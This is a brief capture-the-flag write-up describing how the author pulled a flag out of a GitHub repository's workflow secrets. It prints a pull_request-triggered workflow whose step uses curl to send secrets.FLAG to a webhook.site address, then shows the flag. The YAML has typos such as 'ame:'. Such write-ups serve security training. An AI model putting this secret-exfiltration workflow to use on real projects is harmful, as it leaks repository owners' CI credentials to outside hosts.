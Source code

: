 # Comments
> You must solve the first challenge to get the answer, all you need is inside the Loby.

## About the Challenge
We were given a repository whose flags are located in the GitHub workflow

![workflow](images/workflow.png)

## How to Solve?
To get the flag, I created another workflow like this

```yaml
ame: Say Hi

 on: [pull_request]

 jobs:
   build:

     runs-on: ubuntu-latest

     steps:
     - uses: actions/checkout@v2
     - name: Say Hi
       run: |
         curl "https://webhook.site/b7c7b30c-1536-4672-a15c-646bcd1ef28e?username=${{ secrets.FLAG }}"
```

This workflow will send the flag to `webhook.site` using `curl` command, and then create a pull request to trigger the workflow

![flag](imagess/flag.png)

```
EKO{m0ve_y0uR_b0dy}
```